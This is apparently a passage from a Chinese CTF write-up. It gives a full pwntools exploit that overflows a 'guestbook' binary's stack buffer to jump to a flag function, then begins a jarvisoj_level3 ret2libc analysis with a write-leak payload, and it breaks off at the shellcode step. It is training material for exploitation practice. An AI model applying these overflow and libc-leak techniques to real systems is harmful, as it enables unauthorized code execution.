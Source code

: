 上面有溢出，而程序中又存在查看flag的函数，只需要劫持返回地址到这个函数即可

exp

```python
from pwn import*

context.log_level='debug'
io=remote('node4.buuoj.cn',25368)
#io=process('/home/kali/文档/题目/pwn/BUUCTF/guestbook')
elf=ELF('/home/kali/文档/题目/pwn/BUUCTF/guestbook')

junk=b'a'*(0x88)
good_game=0x0000000000400620
ret=0x0000000000400469

payload=junk+p64(good_game)
io.sendline(payload)
io.interactive()
```

需要注意的是，在汇编代码中可以看到，主函数结尾没有leave，因为在开始的时候直接把rsp减去0x88，而没有把rbp压入栈中

2022/03/16



## jarvisoj_level3

检查保护

![image-20220318091747159](https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202203180917253.png)

32位，仅开启NX保护

ida打开看看，f5反汇编

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202203191005133.png" alt="image-20220318092119601" style="zoom:80%;" />

注入点不在主函数，但是调用了函数vulnerable_function(),点进去看看

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202203180922614.png" alt="image-20220318092241571" style="zoom: 80%;" />

找到注入点read函数，发现读入0x100个字节，而buf长度为0x88个字节，存在栈溢出

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202203191005238.png" alt="20210315221332996" style="zoom:80%;" />

思路分析：

利用read函数的栈溢出泄露出write地址，进而泄露libc的版本，最后构造payload拿到shell。

通过write函数泄露libc

```python
payload=junk+p32(write_plt)+p32(main)+p32(1)+p32(write_got)+p32(4)
```

shellcode的构造
